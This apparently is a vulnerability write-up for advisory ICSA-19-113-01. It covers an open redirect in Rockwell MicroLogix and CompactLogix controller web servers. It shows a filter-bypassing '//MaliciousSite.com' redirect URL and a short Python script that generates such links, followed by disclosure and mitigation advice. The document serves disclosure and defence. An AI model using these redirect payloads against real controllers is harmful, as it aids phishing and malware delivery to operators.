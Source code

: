 # Overview of ICSA-19-113-01

The following Rockwell Automation products were discovered to contain an open redirect vulnerability:

* MicroLogix 1400 Controllers
* Series A, All Versions
* Series B, v15.002 and earlier
* MicroLogix 1100 Controllers v14.00 and earlier
* CompactLogix 5370 L1 controllers v30.014 and earlier
* CompactLogix 5370 L2 controllers v30.014 and earlier
* CompactLogix 5370 L3 controllers (includes CompactLogix GuardLogix controllers) v30.014 and earlier

# Open Redirect Vulnerabilities

An Open Redirect vulnerability occurs when a web application accepts user-supplied input in the URL that contains a link to an external website, redirecting the user's browser to a malicious website. 
The Open Redirect vulnerability discovered in various Rockwell Controllers is no exception to this rule. Each controller runs a web server that displays diagnostics about that specific PLC. There also exists a URL parameter that enables the PLC to redirect the user’s browser:

```
http://192.168.1.12/index.html?redirect=/localpage
```

The redirect parameter intends to send users to another page located on the PLCs website. Under normal circumstances, the PLC would filter out redirects to an external website, so if you tried the following:

```
http://192.168.1.12/index.html?redirect=/externalsite
```

it would filter out the request and prevent the browser from being sent to a malicious site. However, the PLCs redirect filter does not account for the various ways to enter a URL like so:

```
http://192.168.1.12/index.html?redirect=//MaliciousSite.com
```

From the browser’s perspective, the second ‘/’ character will be ignored, making it a valid URL yet bypassing the PLCs filter. The browser will then be redirected to the website provided after the second ‘/’. This type of client-side attack can aid in phishing campaigns to setup browser exploits or install malware.

# Proof of Concept Exploit

```
import argparse

parser = argparse.ArgumentParser(description='Callback Script')
parser.add_argument('-r', '--redirect', required=True, dest="redirect", action='store', help='Redirect Destination IP')		
parser.add_argument('-p', '--plc', required=True, dest="plc", action='store', help='Rockwell Controller IP')	
args = parser.parse_args()  #Parse Command Line Arguments

print("Generating link...")
print("http://"+args.plc+"/index.html?redirect=//"+args.redirect)

```

# Disclosure

The vulnerabilities were immediately reported to the National Cybersecurity and Communications Integration Center (NCCIC) by security researchers Josiah Bryan and Geancarlo Palavicini. You can find the full advisory here.

# Mitigation

Rockwell Automation has released an update for each of the affected devices. Rockwell also recommends users take defensive measures to minimize the risk of exploitation of this vulnerability. Specifically, users should:

* Update to the latest available firmware revision that addresses the associated risk.
* Use trusted software, software patches, anti-virus/anti-malware programs, and interact only with trusted websites and attachments.
* Minimize network exposure for all control system devices and/or systems, and ensure that they are not accessible from the Internet.
* Locate control system networks and devices behind firewalls and isolate them from the business network.
* When remote access is required, use secure methods such as virtual private networks (VPNs), recognizing that VPNs may have vulnerabilities and should be updated to the most current version available. VPN is only as secure as the connected devices.
* Employ training and awareness programs to educate users on the warning signs of a phishing or social engineering attack.
